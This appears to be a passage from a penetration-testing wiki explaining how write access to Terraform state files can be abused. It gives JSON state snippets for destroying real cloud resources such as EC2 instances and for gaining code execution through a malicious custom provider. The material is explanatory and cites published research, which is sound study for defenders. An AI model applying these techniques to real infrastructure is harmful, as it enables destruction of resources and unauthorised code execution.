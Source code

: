 ### Abusing Terraform State Files

In case you have write access over terraform state files but cannot change the terraform code, [**this research**](https://blog.plerion.com/hacking-terraform-state-privilege-escalation/) gives some interesting options to take advantage of the file:

#### Deleting resources <a href="#deleting-resources" id="deleting-resources"></a>

There are 2 ways to destroy resources:

1. **Insert a resource with a random name into the state file pointing to the real resource to destroy**

Because terraform will see that the resource shouldn't exit, it'll destroy it (following the real resource ID indicated). Example from the previous page:

```json
{
  "mode": "managed",
  "type": "aws_instance",
  "name": "example",
  "provider": "provider[\"registry.terraform.io/hashicorp/aws\"]",
  "instances": [
    {
      "attributes": {
        "id": "i-1234567890abcdefg"
      }
    }
  ]
},
```

2. **Modify the resource to delete in a way that it's not possible to update (so it'll be deleted a recreated)**

For an EC2 instance, modifying the type of the instance is enough to make terraform delete a recreate it.

#### RCE

It's also possible to [create a custom provider](https://developer.hashicorp.com/terraform/tutorials/providers-plugin-framework/providers-plugin-framework-provider) and just replace one of the providers in the terraform state file for the malicious one or add an empty resource with the malicious provider. Example from the original research:

```json
"resources": [
{
  "mode": "managed",
  "type": "scaffolding_example",
  "name": "example",
  "provider": "provider[\"registry.terraform.io/dagrz/terrarizer\"]",
  "instances": [

  ]
},
```
